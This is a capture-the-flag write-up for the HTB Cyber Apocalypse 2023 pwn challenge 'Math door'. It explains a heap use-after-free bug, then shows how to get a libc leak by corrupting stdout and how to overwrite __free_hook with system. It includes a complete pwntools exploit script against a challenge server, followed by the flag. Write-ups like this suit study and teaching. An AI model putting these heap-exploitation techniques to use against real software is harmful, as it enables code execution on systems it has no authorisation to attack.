 # Math door - HTB Cyber Apocalypse 2023
> Writeup Author: [Mymaqn](https://github.com/Mymaqn)
>
> [`pwn_math_door_box.zip`](pwn_math_door_box.zip)

## Description
Pandora is making her way through the ancient city, but she finds herself in a room with only locked doors. One of them looks majestic, and it has lots of hieroglyphs written on its surface. After inspecting it, she realizes it's all math: the door presents a problem and she has to solve it to go through to the heart of the ancient city. Will you be able to help her?

## Solution

Checksec:
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
RUNPATH:  b'.'
```

All protections are enabled on this binary except for fortification.

The bug in this one is a UAF in the delete() function.
```C
void delete(void)

{
  uint uVar1;
  
  puts("Hieroglyph index:");
  uVar1 = read_int();
  if (uVar1 < counter) {
    free(*(void **)(chunks + (ulong)uVar1 * 8));
  }
  else {
    puts("That hieroglyph doens\'t exist.");
  }
  return;
}
```

This only frees the chunk, but keeps the index inside of the list, which allows us to modify the chunk even after it was freed with add.

Add adds the bytes given onto the data that is already present in the chunk.

However no function exists to print the contents of a chunk, therefore we will have to find another way to get a leak.

Since this is libc 2.31, no heap pointer mangling is present and we can therefore just modify the pointers inside of a chunk. This is about as good as a leak is, but not entirely. So we'll need to create a leak primitive ourselves.

To create a leak primitive we first need a libc pointer. However the program only allows us to allocate chunks of size 0x18, which means we can't just allocate a chunk which goes into the unsorted bin.

The solution to this problem is the following:
1. Create 3 chunks
2. Delete the 2 first chunks
3. Point chunk 2's free pointer at chunk 3's size
4. Reallocate the 2 chunks. Chunk 5 now overlaps with chunk 2's size
5. Add to chunk 5, overwriting chunk 2's size with 0x421
6. Allocate enough chunks to realign chunk 2 with the rest of the heap
7. Free chunk 2

This will make GLIBC think that it has freed an unsorted bin and provide us with a libc pointer on the heap.

Next, we can free four other chunks and point the 3rd one to the newly created libc pointer. Then allocate three chunks again. The 4th chunk allocated will be inside libc.

As we can modify the libc pointer with add, we can basically just point inside anywhere we want in libc. I decided to first allocate 2 chunks inside of the FILE pointer stdout, so that it leaks libc data, next time a function which uses stdout is called.

Once the leak is received, we can allocate a chunk inside __free_hook and point it at system. Then free a chunk containing the string "/bin/sh" to spawn a shell.

Here is the exploit which does exactly this:

```py
from pwn import *

context.binary = "./math-door"

io = remote("104.248.169.175",31001)

def create():
    io.recvuntil(b'Action:')
    io.sendline(b'1')
    io.recvuntil(b'Hieroglyph created with index ')
    return int(io.recvuntil(b'.')[:-1])

def delete(idx):
    io.recvuntil(b'Action:')
    io.sendline(b'2')
    io.recvuntil(b'Hieroglyph index:')
    io.sendline(f"{idx}".encode())
def add(idx,data):
    io.recvuntil(b'Action:')
    io.sendline(b'3')
    io.recvuntil(b'Hieroglyph index:')
    io.sendline(f"{idx}".encode())
    io.recvuntil(b'Value to add to hieroglyph:')
    io.send(data)
    
    
# Overlap chunks to overwrite the size of the next chunk
create()
create()
create()
delete(0)
delete(1)
add(1,p8(0x30))
create()
create()
add(4,p64(0x0)+p64(0x421))

# Allocate enough chunks for the new unsorted bin to be a valid chunk
for i in range(5,40):
    create()

#Free the newly created big chunk to get a libc pointer 
delete(2)

#Free some chunks to get pointers we can modify
delete(7)
delete(8)
delete(9)
delete(10)
#Point chunk 9's free pointer to our libc pointers
add(9,p64(unsigned(-0x80)))
#Point our libc pointer at __IO_2_1_stdout-0x10
add(4,b'A'*16+p64(0xab0))

#Create 3 chunks so the next chunk we allocate will be inside of stdout
create()
create()
create()

#Get the index of chunk inside stdout
last_idx = create()

#Turn the flags variable in stdout to 0xfbad1800
add(last_idx,b'\x00'*16+p64(unsigned(-0x1087)))

#Point our libc pointer a bit further down so we can allocate a chunk
#on top of _IO_write_base
add(4,b'\x00'*16+p64(0x20))

#Free more chunks so we can point it at our libc pointer
delete(11)
delete(12)
delete(13)
delete(14)

#Point chunk 13 at our libc pointer
add(13,p64(unsigned(-0x100)))
#Create 3 chunks so the next chunk we allocate will be on top of _IO_write_base
create()
create()
create()

#Get the index of the chink which can overwrite write_base
last_idx = create()

#Point write_base 0x100 further down. This will now cause a leak when calling puts next
add(last_idx,b'\x00'*16+p64(unsigned(-0x100)))
io.recv(5)
# Receive our leak
leak = u64(io.recv(8))

#Calc libc base
libc_base = leak-0x1ed6a0
free_hook = libc_base+0x1eee48
system = libc_base+0x52290
log.info(f"LIBC BASE: {libc_base:#x}")

#Free more chunks so we can point at __free_hook
delete(15)
delete(16)
delete(17)
delete(18)
add(17,p64(0x10))
#Point chunk 16 at free hook
add(16,b'A'*16+p64(free_hook-8))

#Allocate the chunks untill our free_hook pointer
create()
create()
create()

#Allocate the free_hook pointer and set it to system
last_idx = create()
add(last_idx,b'A'*8+p64(system))

#Put /bin/sh inside of chunk 19
add(19,b'/bin/sh\x00')

#Trigger free_hook with /bin/sh
delete(19)


io.interactive()
```

## Flag
`HTB{y0ur_m4th_1s_fr0m_4n0th3r_w0rld!}`